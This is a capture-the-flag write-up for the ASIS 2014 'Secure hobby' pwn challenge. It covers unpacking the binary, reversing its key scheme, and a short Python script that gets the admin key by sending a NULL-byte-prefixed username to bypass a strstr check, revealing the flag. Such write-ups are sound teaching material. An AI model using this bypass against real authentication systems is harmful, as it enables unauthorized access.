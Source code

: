 # ASIS Cyber Security Contest Finals 2014: Secure hobby

**Category:** Pwn
**Points:** 250
**Description:**

> [File](hobby_8524ad2ae5fde9a43d7e6b1956c8099b) is running here:
>
> ```bash
> nc asis-ctf.ir 12439
> ```

## Write-up

Let’s see what [the provided file](hobby_8524ad2ae5fde9a43d7e6b1956c8099b) could be:

```bash
$ file hobby_8524ad2ae5fde9a43d7e6b1956c8099b
hobby_8524ad2ae5fde9a43d7e6b1956c8099b: xz compressed data
```

So, we extract the file using the built-in `xz` or `unxz` commands:

* `xz -dc < hobby_8524ad2ae5fde9a43d7e6b1956c8099b > hobby`
* `unxz < hobby_8524ad2ae5fde9a43d7e6b1956c8099b > hobby`

Alternatively, extract the provided file using [p7zip](http://p7zip.sourceforge.net/):

```bash
7z x hobby_8524ad2ae5fde9a43d7e6b1956c8099b
```

Let’s find out what the extracted file is:

```bash
$ file hobby
hobby: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, stripped
```

## The Challenge

Let's connect to the service to see what we're dealing with

```bash
$ nc asis-ctf.ir 12439
-------------------------------------------------
| 	Welcome to Super Secure Auth Engine	|
-------------------------------------------------

1) Register
2) Login check
3) Show my secret

Enjoy ;)
1
Enter username: admin
Kidding Me? :(
```

So we cannot register the username `admin`. Registering other usernames does work, in which case we are given a key.

```bash
Enter username: hacknamstyle
Your key for login is: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
```

This key can then be given as input to option two or three:

```bash
2
Enter key: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
OK
User hacknamstyle authenticated

[..]

3
Enter key: 6147466a6132356862584e306557786c95a6d58cd2be3f87ff4a27e51afaff87
You don't have any secret! :(
```

From the output of option two we notice that the key somehow encodes the username (and probably some secret authentication code). It's likely that the secret associated with the `admin` username contains the flag. Let's load the binary in IDA to see whether we can calculate the key for `admin` ourselves. We notice that the code appears obfuscated and/or that the executable is packed (IDA detected few functions and the executable is not importing many API functions). Running `strings` on the executable reveals that it's packed with UPX.

```bash
$ strings hobby | grep -i upx
UPX!
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $
UPX!u
UPX!
UPX!
```

We can easily unpack this using [public UPX tools](http://upx.sourceforge.net/). Now we get a normal looking executable in IDA.

After some reversing, we have that the program reads the file `namak` on start-up, and saves the content to a global variable. When calculating the key for a user, this secret data appears to be used. Hence, since we don't know the content of the file, it appears we cannot calculate a valid key ourselves. However, while reversing the key generation algorithm, we notice that `strstr` is being used to check whether the username contains the string `admin`. Is it possible to bypass this check by including a leading NULL byte in the username? The answer is yes! Hence we get the key of the admin by using the username `\x00admin`. This key can then be used to read the secret of the admin (which is of course the flag):

```python
from netcatlib import *

# Get the key for admin
nc = Netcat('asis-ctf.ir', 12439)
nc.write("1\n")
nc.read_until("Enter username: ")
nc.write("\x00admin")
nc.read_until("Your key for login is: ")
key = nc.read_until("\n")
print "[+] Key for admin is", key,

# Get the secret of admin
nc = Netcat('asis-ctf.ir', 12439)
nc.write("3\n")
nc.read_until("Enter key: ")
nc.write(key)
nc.read_until("The flag is: ")
print "[+] Secret of admin:", nc.read_all()
```

The output of the script is:

```python
[+] Key for admin is 4147466b62576c7503812bbd45e23c059a0eab18e936b7ed
[+] Secret of admin: ASIS_65cc76f02093977bfd7629086e813666
```

## Other write-ups and resources

* [Alternative Exploit in Python](http://pastebin.com/b2QVFK2U)
